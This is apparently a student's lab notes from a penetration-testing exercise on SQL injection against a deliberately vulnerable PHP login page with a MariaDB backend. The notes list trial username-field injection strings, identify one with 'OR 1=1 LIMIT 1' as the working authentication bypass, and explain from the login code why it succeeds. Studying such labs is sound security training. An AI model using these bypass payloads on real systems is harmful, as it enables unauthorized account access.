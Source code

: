 9.4.5.4

# 9.4.5.4
## 9.4.5.4.1. Interact with the MariaDB database and manually execute the commands required to authenticate to the application. Understand the vulnerability.

Authenticate to the webappdb database as root.
![3013ad9b118637e2af2aa9a12ed556f3.png](:/a8d9042252e74482a7bf1b453779e62e)

Use the WHERE clause to select by id or by username
![883a8fc348b006703988edfc335be69a.png](:/c68fcdd630ec490aa496e083b12d9905)



## 9.4.5.4.2. SQL inject the username field to bypass the login process.
Now try logging in without valid credentials
`tom'`
![211b521d3d86d5f460303c83c22ff0cb.png](:/3a7c0ea9bed9415ca295cdd10a1d58f4)

`1=1'`
![8410364e0717816486a4b1f45d1fe2ba.png](:/857e0d8beb4544cdb3fdc0580ddbcc11)

`tom' or 1=1'#`
![f09449b07da7289ab43895e03ae96946.png](:/4bb31edcc97a4217bdfddae5943b0611)

`tom or 1=1'`
![7860db31cdc8cc02f8ca64cf73b787bd.png](:/2d6ec9375ae546e9b53bbd035bc9e064)

`tom or 1=1'#`
![7c77a4ab77c847d48f96956c51fcb508.png](:/afe4c4a8744e43bd9b4c8a6665abec9c)

`tom' or 1=1#`
![a058810c49032dd0586baacdf8e77e0d.png](:/137b3a69421b441e921c5eb12663adf3)

`tom' or 1=1;#`
![14d67a85847a2ed5d6b23526e2f6b541.png](:/3f5c4f8d74b64064ba1424f4d26360de)

`tom' OR 1=1 LIMIT 1;#` THIS WORKS!
![9bc81eb738717bd462a59079f26ef191.png](:/a0226ba82def43689a2d1181eea3d7d8)


## 9.4.5.4.3. Why is the username displayed like it is in the web application once the authentication process is bypassed?

When a user is authenticated, the code calls header(admin.php). The header() function is a predefined PHP native function that allows us to control data sent to the client by the Web server before other output has been sent. In this case, it redirects to admin.php. There is a statement in admin.php that echoes "Welcome <user>"
![648251edf7ba25e575744109f2316ef0.png](:/64ec728333104fe1aa507bc6cbab7263)



## 9.4.5.4.4. Execute the SQL injection in the password field. Is the "LIMIT 1" necessary in the payload? Why or why not?

Yes it is necessary to include "LIMIT 1" in this example because the source code file login.php because line 22 requires there to be exactly 1 result.
```plaintext
if( $result->num_rows == 1 ) {
                                        $_SESSION['user'] = $_POST['username'];
                                        header("Location:admin.php");
```
![a69401c79bb1c29c897b1a873cdc14de.png](:/5019110b1f4a4f8ab219ff5d673560b3)





id: 5fe638ae37404880ad6c73ae0f9d30f4
parent_id: 33a465e6698d4fac9c4f8149b7813316
created_time: 2020-09-20T13:39:16.204Z
updated_time: 2020-09-21T22:33:20.086Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-20T13:39:16.204Z
user_updated_time: 2020-09-21T22:33:20.086Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1